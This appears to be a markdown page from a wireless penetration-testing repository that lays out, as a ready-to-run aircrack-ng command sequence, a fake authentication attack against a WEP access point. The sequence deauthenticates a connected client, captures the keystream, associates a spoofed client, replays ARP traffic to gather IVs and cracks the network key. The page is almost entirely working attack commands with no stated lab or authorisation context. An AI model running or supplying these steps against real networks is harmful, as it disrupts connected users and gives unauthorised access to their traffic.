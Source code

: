 # Fake Authentication Attack - Bypassing the Password Shared Key (PSK)(WEP)

This attack focuses on an AP that is using PSK authentication.

* Run [setup](../../setup.md) first
* Up to three terminals are needed

```bash
# [Terminal One]
# Set interface to monitor mode
sudo airmon-ng start $ADAPTER $CHANNEL

# Start monitoring to collect data
sudo airodump-ng -c $CHANNEL --bssid $BSSID -w $TAG $INTERFACE

# [Terminal Two]
# Run the deauthentication attack
sudo aireplay-ng --deauth 1 -a $BSSID -c $CLIENT $INTERFACE

# Verify that the PRGA .xor file was created
ls *.xor

# Contruct the correct PRGA path name
PRGA=$(echo "$TAG-01-$BSSID.xor" | sed 's/\:/-/'g)

# Run the fake authentication attack with PRGA file
sudo aireplay-ng --fakeauth 0 -y $PRGA -a $BSSID -e $SSID -h $INTERFACEMAC $INTERFACE

# Look for Association successful message :)

# Run the arpreplay attack to generate IVs
sudo aireplay-ng --arpreplay -b $BSSID -h $INTERFACEMAC $INTERFACE

# [Terminal 3]
# Run the deauthentication attack again to generate more IVs
sudo aireplay-ng --deauth 1 -a $BSSID -c $CLIENT $INTERFACE

# Wait for enough data ... several minutes or so
# Stop everything

# Crack the WEP keister (ensure that plenty of IVs are captured beforehand)
sudo aircrack-ng -0 $PCAP
```

## References

* [Aircrack-ng](https://www.aircrack-ng.org/doku.php?id=aircrack-ng)
* [Airmon-ng](https://www.aircrack-ng.org/doku.php?id=airmon-ng)
* [Aireplay-ng](https://www.aircrack-ng.org/doku.php?id=aireplay-ng)
* [Airodump-ng](https://www.aircrack-ng.org/doku.php?id=airodump-ng)
* [Fake Authentication](https://www.aircrack-ng.org/doku.php?id=fake_authentication)

